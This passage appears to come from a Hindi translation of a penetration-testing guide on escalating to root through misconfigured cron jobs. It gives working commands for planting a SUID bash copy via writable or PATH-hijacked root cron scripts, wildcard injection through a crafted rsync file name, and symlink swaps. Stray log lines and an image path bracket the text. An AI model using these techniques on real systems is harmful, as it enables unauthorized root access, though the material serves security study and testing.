 उदाहरण के लिए, _/etc/crontab_ के अंदर आप पाठ पा सकते हैं: _PATH=**/home/user**:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin_

(_ध्यान दें कि "user" उपयोगकर्ता को /home/user पर लेखन अधिकार है_)

यदि इस crontab में रूट उपयोगकर्ता कोई कमांड या स्क्रिप्ट पाथ सेट किए बिना चलाने की कोशिश करता है। उदाहरण के लिए: _\* \* \* \* root overwrite.sh_\
तो, आप निम्नलिखित उपयोग करके रूट शेल प्राप्त कर सकते हैं:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```
### क्रॉन वाइल्डकार्ड के साथ स्क्रिप्ट का उपयोग करना (वाइल्डकार्ड इंजेक्शन)

यदि रूट द्वारा एक स्क्रिप्ट को चलाया जाता है और कमांड में "वाइल्डकार्ड" ("**\***") होता है, तो आप इसका उपयोग करके अप्रत्याशित चीजें कर सकते हैं (जैसे कि प्राइवेसीक). उदाहरण:
```bash
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```
**यदि वाइल्डकार्ड के पश्चात् एक पथ जैसे** _**/some/path/\***_ **हो, तो यह अभिशप्त नहीं होता (हालांकि** _**./\***_ **भी नहीं होता है।)**

वाइल्डकार्ड उपयोग करने के और अधिक तरीकों के लिए निम्नलिखित पृष्ठ को पढ़ें:

{% content-ref url="wildcards-spare-tricks.md" %}
[wildcards-spare-tricks.md](wildcards-spare-tricks.md)
{% endcontent-ref %}

### क्रॉन स्क्रिप्ट अधिलेखन और सिंबलिंक

यदि आप **रूट द्वारा निष्पादित किए जाने वाले क्रॉन स्क्रिप्ट को संशोधित कर सकते हैं**, तो आप आसानी से एक शेल प्राप्त कर सकते हैं:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```
यदि रूट द्वारा निष्पादित स्क्रिप्ट एक **ऐसे निर्देशिका का उपयोग करता है जिसमें आपके पास पूरी पहुंच होती है**, तो शायद यह उपयोगी हो सकता है कि आप उस फ़ोल्डर को हटा दें और एक और फ़ोल्डर के लिए एक सिंबलिंक फ़ोल्डर बनाएं, जिसमें आपके द्वारा नियंत्रित स्क्रिप्ट की सेवा हो।
```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```
### आवृत्ति वाले क्रॉन जॉब्स

आप प्रक्रियाओं की निगरानी कर सकते हैं ताकि आप 1, 2 या 5 मिनट के अंतराल में चल रही प्रक्रियाओं को खोज सकें। शायद आप इसका फायदा उठा सकते हैं और विशेषाधिकारों को बढ़ा सकते हैं।

उदाहरण के लिए, **1 मिनट के दौरान हर 0.1 सेकंड की निगरानी करने**, **कम चलाए गए कमांडों के आधार पर क्रमबद्ध करें** और सबसे अधिक चलाए गए कमांडों को हटा दें, आप निम्नलिखित कर सकते हैं:
```bash
for i in $(seq 1 610); do ps -e --format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v "\[" | sed '/^.\{200\}./d' | sort | grep -E -v "\s*[6-9][0-9][0-9]|\s*[0-9][0-9][0-9][0-9]"; rm /tmp/monprocs.tmp;
```
**आप भी** [**pspy**](https://github.com/DominicBreuker/pspy/releases) **का उपयोग कर सकते हैं** (यह हर प्रक्रिया का मॉनिटरिंग और सूचीकरण करेगा।)


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714